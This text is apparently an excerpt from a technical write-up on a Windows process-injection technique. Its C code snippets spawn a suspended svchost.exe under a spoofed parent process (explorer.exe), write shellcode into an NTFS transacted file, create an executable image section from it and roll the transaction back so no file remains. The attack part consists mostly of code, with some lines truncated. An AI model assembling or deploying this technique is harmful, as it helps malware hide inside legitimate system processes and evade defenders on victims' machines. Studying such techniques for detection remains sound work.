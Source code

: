 #### 1. Spawning a process and map a copy

Spawning a new suspended process is a trivial task at this point. I reused my code to enumerate running processes looking for *explorer.exe* and open a handle to it. This handle is used to spoof the parent process ID (PPID) of the newly spawned process.

```c
PROCESS_INFORMATION pi = Spawn("C:\\Windows\\System32\\svchost.exe -k netsvc -p -s UserManager", GetParentHandle("explorer.exe"));
```

Next I'll map a copy of *svchost.exe* in the current process.

```c
//<truncated for space>
RtlInitUnicodeString(&procFileName, (PCWSTR)L"\\??\\C:\\Windows\\System32\\svchost.exe");
RtlZeroMemory(&sb, sizeof(IO_STATUS_BLOCK));
InitializeObjectAttributes(&oat, &procFileName, OBJ_CASE_INSENSITIVE, NULL, NULL);

NtOpenFile(&hFile, FILE_GENERIC_READ, &oat, &sb, FILE_SHARE_READ, FILE_SYNCHRONOUS_IO_NONALERT);
//<truncated for space>
NtCreateSection(&hProcSection, SECTION_ALL_ACCESS, NULL, 0, PAGE_READONLY, SEC_COMMIT, hFile);
//<truncated for space>
NtMapViewOfSection(hProcSection, GetCurrentProcess(), &sectionaddr, 0, 0, NULL, &size, ViewUnmap, 0, PAGE_READONLY);

NtClose(hFile);
NtClose(hProcSection);
```

#### 2. Using transactions to create a malicious section

Instead of using the high level API `CreateFileTransactedW` to create the transacted file, I used a combination of two low level API's, `RtlSetCurrentTransaction` followed by `NtCreateFile`. I did a similar thing to write to the transacted file with `RtlSetCurrentTransaction` followed by `NtWriteFile`.

After the transacted file is created and the payload is written to it, I create a new section from the transacted file and rollback the transaction.

```c
//<truncated for space>
NtCreateTransaction(&hTransaction, TRANSACTION_ALL_ACCESS, NULL, NULL, NULL, 0, 0, 0, 0, NULL);

RtlSetCurrentTransaction(hTransaction);
//<truncated for space>
RtlInitUnicodeString(&filename, (PCWSTR)L"\\??\\C:\\temp\\test.txt");

RtlZeroMemory(&osb, sizeof(IO_STATUS_BLOCK));
InitializeObjectAttributes(&oa, &filename, OBJ_CASE_INSENSITIVE, NULL, NULL);

NtCreateFile(&hFileTransacted, STANDARD_RIGHTS_WRITE | FILE_WRITE_DATA | FILE_WRITE_ATTRIBUTES | FILE_WRITE_EA | FILE_APPEND_DATA | SYNCHRONIZE | FILE_READ_DATA | FILE_READ_ATTRIBUTES, &oa, &osb, 0, FILE_ATTRIBUTE_NORMAL, FILE_SHARE_WRITE, FILE_CREATE, FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);

RtlSetCurrentTransaction(hTransaction);
//<truncated for space>
RtlZeroMemory(&iosb, sizeof(IO_STATUS_BLOCK));
NtWriteFile(hFileTransacted, NULL, NULL, NULL, &iosb, shellcode, shellcode_size, NULL, NULL);
//<truncated for space>
NtCreateSection(&hSection, SECTION_MAP_EXECUTE, NULL, 0, PAGE_READONLY, SEC_IMAGE, hFileTransacted);
NtClose(hFileTransacted);
NtRollbackTransaction(hTransaction, TRUE);
NtClose(hTransaction);
```
